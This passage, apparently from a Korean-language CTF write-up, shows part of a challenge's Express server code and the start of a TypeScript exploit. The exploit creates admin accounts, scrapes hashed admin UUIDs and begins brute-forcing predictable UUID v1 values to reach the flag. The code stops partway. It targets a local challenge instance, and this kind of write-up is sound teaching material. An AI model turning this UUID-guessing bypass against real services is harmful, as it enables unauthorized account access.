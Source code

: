 ```js {34-37} title="server.js"
      useruuids.shift();
    }
  } else if (isAdmin(id)) {
    res.send(process.env.FLAG);
    return;
  }

  res.send('You are logged in as ' + id + '<br><br>' + getUsers());
});

app.post('/createadmin', (req, res) => {
  const adminid = randomUUID();
  adminuuids.push(adminid);
  if (adminuuids.length > 50) {
    adminuuids.shift();
  }
  res.send('Admin account created.');
});
```

유저의 경우에는 그냥 해시를 하고 있지만, 어드민의 경우에는 `admin`을 붙여서 해시를 하고 있다.
그리고 `uuid`는 최대 50개까지 저장할 수 있어 보인다.

`uuid v1`의 경우에는 위에서 말했듯 랜덤성이 상당히 떨어진다. 따라서, `uuid`를 `brute force`하는 방법을 사용할 수 있다.

```typescript title="exploit.ts"
import { create } from '@web';
import { logger, md5 } from '@utils';
const r = create({
  baseURL: 'http://localhost:8080',
});

logger.info('Starting to create admins...');

for (let i = 0; i < 25; i++) {
  await r.post('/createadmin');
}
let currentUUID = await r
  .get<string>('/')
  .then((res) =>
    res.data.split('You are logged in as ')[1].split('<br>')[0].trim(),
  );

for (let i = 0; i < 25; i++) {
  await r.post('/createadmin');
}

const hashedUUIDs = await r
  .get<string>('/')
  .then((res) =>
    res.data
      .split('<strong>Admin users:</strong>')[1]
      .split('<br><br><strong>Regular users:</strong>')[0]
      .replaceAll('<tr><td>', '')
      .replaceAll('</td></tr>', '')
      .split('\n'),
  );

const header = currentUUID.substring(0, 2);
logger.info(`Current UUID: ${currentUUID}, Header: ${header}`);
currentUUID = currentUUID.slice(8);

const hexChars = '0123456789abcdef';
async function checkAdmin() {
```